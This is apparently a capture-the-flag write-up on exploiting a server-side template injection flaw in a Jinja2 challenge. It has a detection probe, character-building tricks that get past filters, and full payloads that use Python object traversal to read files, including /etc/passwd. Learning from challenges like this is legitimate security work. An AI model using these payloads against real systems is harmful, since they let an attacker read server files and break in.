



# Discovery of SSTI vuln:
```
http://challenge2.lagncrash.com:17654/{{7*7}}
```

<br>
Reference: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
<br>
<br>
<br>

# Getting bypass filter codes:
```
[[]|map|string|list][0][0] = <
[[]|map|string|list][0][42] = >
[[]|map|string|list][0][20] = _
[[g]|string|list][0][13] = '
[[g]|string|list][0][7] = .
```

<br>
<br>
<br>

# Decided to try the payload:
Payload:
```
{{ [[''|attr([[[]|map|string|list][0][20]*2,'class',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'mro',[[]|map|string|list][0][20]*2]|join)][0][2]|attr([[[]|map|string|list][0][20]*2,'subclasses',[[]|map|string|list][0][20]*2]|join)()][0][40](['fort', [1|float|string|list][0][1], 'py']|join,'r')|attr('read')() }}
```
Changed to /etc/passwd:
```
{{ [[''|attr([[[]|map|string|list][0][20]*2,'class',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'mro',[[]|map|string|list][0][20]*2]|join)][0][2]|attr([[[]|map|string|list][0][20]*2,'subclasses',[[]|map|string|list][0][20]*2]|join)()][0][40](['/etc/passwd','r')|attr('read')() }}
```

<br>
<br>
<br>
Ditching start from scratch to just get flag.txt
<br>

<br>

Reference: https://fireshellsecurity.team/asisctf-fort-knox/ (All the techniques)<br>
Reference: https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/ (Changing the techniques to do stuff)
